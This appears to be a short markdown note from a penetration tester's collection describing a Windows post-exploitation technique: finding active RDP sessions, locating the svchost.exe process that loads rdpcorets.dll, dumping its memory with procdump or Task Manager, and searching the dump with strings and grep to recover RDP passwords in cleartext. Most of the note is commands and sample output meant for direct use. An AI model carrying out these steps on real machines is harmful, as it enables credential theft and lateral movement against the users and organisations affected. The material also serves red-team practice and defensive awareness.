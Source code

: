 # Dumping plaintext RDP credentials from svchost.exe
#RPD #Windows #post-exploitation  
[Article](https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/)

svchost.exe which loads RPDcorets.dll have the possiblity of holding RPD password in clear text, which can found using strings tool. 

## IRL usecase
The use this in IRL you need to have admin access to the machine. 

First identity if there is a RDP connection to the machine 

````powershell 
netstat -nob | select-String TermService -Context 1

    TCP    10.0.24.133:3389       10.2.25.11:51258       ESTABLISHED     468
>   TermService
   [svchost.exe]
    TCP    10.0.24.133:3389       10.2.25.12:52507       ESTABLISHED     468
>   TermService
   [svchost.exe]
````

Here we see there are two RDP connection, lets see if svchost.exe have loaded the RDPcorets.dll file. 

````powershell 
tasklist /m:rdpcorets.dll
Image Name                     PID Modules
========================= ======== ============================================
svchost.exe                    468 rdpcorets.dll
````

dump the memory of the file using either task manager or procdump.exe 

do a strings search on the memory file
````bash
strings -el svchost* | grep <username> -C3
````